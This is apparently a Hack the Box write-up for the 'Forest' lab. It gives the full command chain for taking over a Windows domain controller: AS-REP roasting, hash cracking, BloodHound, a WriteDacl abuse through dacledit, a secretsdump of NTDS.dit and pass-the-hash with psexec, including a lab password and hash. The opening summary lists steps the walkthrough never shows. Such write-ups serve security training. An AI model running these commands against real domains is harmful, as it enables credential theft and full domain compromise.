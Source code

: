 # Forest

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Easy**


## Table of Contents
- [Key Learnings](#key-learnings)
- [Walkthrough](#walkthrough)
- [Remediation Summary](#remediation-summary)


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Abuse GenericAll and ForceChangePassword privileges to change user passwords using *net rpc*
- Exploit GenericWrite privileges by running a targeted kerberoasting attack on vulnerable account
- Abuse DCSync privs to dump SAM and LSA hashes and compromise the Domain Controller by passing the hash
- Use Hashcat to crack .psafe3 file


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan

<img width="719" height="1009" alt="image" src="https://github.com/user-attachments/assets/6fff85b0-bd86-4e80-a1eb-a5faa5a6ea4f" />

2. Nmap reveals we're dealing with a Domain Controller. Since we are not given initial credentials, attempt to get hashes via ASREProasting attack using Impacket's GetNPUsers.py script

`GetNPUsers.py -request -format hashcat -outputfile asreproastables.txt -dc-ip 10.129.95.210 'htb.local/'`

<img width="721" height="123" alt="image" src="https://github.com/user-attachments/assets/b7257a49-3010-43a5-b68a-c3dbad6b2352" />

3. Crack hash using hashcat to get svc-alfresco's plaintext password

`hashcat -m 18200 asreproastables.txt /usr/share/wordlists/rockyou.txt`

4. With svc-alfresco's credentials, run Bloodhound

`sudo bloodhound-python -d htb.local -u svc-alfresco -p $(cat ../svc-alfresco.password) -ns 10.129.95.210 -c all`

5. Bloodhound shows svc-alfresco user has WriteDacl permissions on the domain.

<img width="1157" height="375" alt="image" src="https://github.com/user-attachments/assets/418e40ba-cea6-4c3a-8c4f-d11b55b1f959" />

6. To exploit WriteDacl permission, first add svc-alfresco user to WINDOWS EXCHANGE PERMISSIONS group using net rpc

`net rpc group addmem "EXCHANGE WINDOWS PERMISSIONS" 'svc-alfresco' -U "htb.local"/'svc-alfresco' -S dc01.htb.local`

7. Then give svc-alfresco user FullControl rights using Impacket's dacledit.py script

`dacledit.py -action 'write' -rights 'FullControl' -principal 'svc-alfresco' -dc-ip dc01.htb.local -target-sid 'S-1-5-21-3072663084-364016917-1341370565' 'htb.local'/'svc-alfresco':'s3rvice'`

8. Since we have FullControl over the HTB.LOCAL domain, we can dump the NTDS.dit using secretsdump.py

`secretsdump.py "htb.local"/'svc-alfresco':'s3rvice'@10.129.95.210`

9. This gives us the Administrator's NTLM hash that we can pass to gain remote code execution using psexec.py

`psexec.py htb.local/administrator@10.129.95.210 -hashes ':32693b11e6aa90eb43d32c72a07ceea6'`

10. Rooted machine!

